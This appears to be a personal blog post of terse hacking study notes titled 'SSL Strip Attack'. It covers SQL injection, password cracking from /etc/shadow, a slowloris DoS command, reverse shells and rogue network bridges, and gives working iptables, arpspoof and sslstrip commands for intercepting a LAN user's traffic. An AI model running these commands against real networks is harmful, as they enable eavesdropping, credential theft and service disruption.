 ```yaml
---
title      : "SSL Strip Attack"
date       : 2019-09-19T19:07:54Z
publishdate: 2019-09-19T19:07:54Z
draft      : false
comments   : false
weight     : 5
revision   : 0
series:
- Security
categories:
- development
tags:
- ssl
---
```


<!-- more -->
* convert `https` to `http`
* Peoplr try to reuse/recycle the passwords
* Bannergrab and search
* Home router attacking
  * steal bacupfile binary file
  * decode binary to human redable format
* nmap can run scripts
* setup fake DNS server in your home router
* `setoolkit`
  * clone a website and run from your machines
* [SQL Injection](https://www.youtube.com/watch?v=ciNHn38EyRc)
  * user -> website -> database (mostly MD5 hashs)
  * attacker -> database
  * User credentials are not the only useful infomration you can find
    * hackers stealing credit card info (which was in plain text)
  * http://www.dvwa.co.uk/
    * run sql-client
  * get `sessionid` cookie
    * most security and IDS are active on login page
      * create a user, log in and then perform attack
  * get [`sqlmap`](http://sqlmap.org/)
    * download everything, then analyze later
  * Second order injection
* BReak HASHes
  * john the ripper
  * hydra - a very fast network logon cracker which supports many different services
    * someone scans your router multiple times everyday for default passwords
    * use over Proxies
  * `findmyhash`
  * passwords are saved at `/etc/shadow`
  * Why crack password when you are already the root?
    * People tend to reuse the passwords
  * `unshadow` - combines passwd and shadow files
* DoS - Denial of service
  * `hping3`
  * practise on your own router
  * `namp --script http-slowloris --max-parallelism 400 192.169.1.1 -vv`
* Script Kiddies
* Reverse Shells
  * `netcat`
    * 
  * mostly detected by Anti viruses on fully updated systems
    * Try to code by yourself
* `metasploit`
  * Exploit Fframework
    * Take a vurnability then explot it
      * vurnability detection
    * webcam snap

iptables/ip6tables
: administration tool for IPv4/IPv6 packet filtering and NAT

Redirect all traffic to port 8080

```
iptables -t nat -I PREROUTING --src 0/0 --dst 127.0.0.1 -p tcp --dport 80 -j REDIRECT --to-ports 8080   

iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-ports 8080   

# verify
iptables --table nat --list PREROUTING
```

{{< cmd >}}
# Identify target
route
nmap [[[192.168.1.2-254]]]

# launch SSL strip attack
arpspoof -i wlp2s0 -t 192.168.1.103 -r 192.168.0.1
sslstrip -l 8080
tail -f sslstrip.log
{{< cmd >}}

1. Scan/Discover entire local network

## Fun things

1. change browser languague while at work
2. `squid3`, `apache`, `imagemagick`, `ghostscript`, `jp2a`
   1. configure `/etc/squid3.conf`

* DNS Attacks
* `bridge-utils`
  * `brctl addbr evil`
  * `brctl addif evil at0`
  * `ip addr evil at0 up`
  * `dhclient evil &`

### Footnotes

[^1]:
[^2]:
